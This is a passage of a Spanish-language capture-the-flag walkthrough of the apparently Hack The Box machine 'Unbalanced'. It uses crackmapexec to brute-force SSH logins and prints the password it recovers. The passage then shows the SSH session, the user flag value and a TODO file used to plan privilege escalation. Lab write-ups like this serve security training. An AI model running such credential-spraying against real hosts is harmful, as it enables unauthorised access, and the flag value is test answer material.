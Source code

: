 ```null
crackmapexec ssh 10.10.10.200 -u users -p passwords | grep "+"
SSH         10.10.10.200    22     10.10.10.200     [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         10.10.10.200    22     10.10.10.200     [+] bryan:ireallyl0vebubblegum!!! 
```

```null
ssh bryan@10.10.10.200
The authenticity of host '10.10.10.200 (10.10.10.200)' can't be established.
ED25519 key fingerprint is SHA256:5T7VuIDF8HLe+9mylE15ZnHdZBlNTB/FeEORjKmivf0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.200' (ED25519) to the list of known hosts.
bryan@10.10.10.200's password: 
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 17 14:16:06 2020 from 10.10.10.4
bryan@unbalanced:~$ 
```

Puedo ver la primera flag

```null
bryan@unbalanced:~$ cat user.txt 
703589884e93d69c30213989bb322a67
```

# Escalada

En su directorio personal hay un archivo TODO

```null
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```
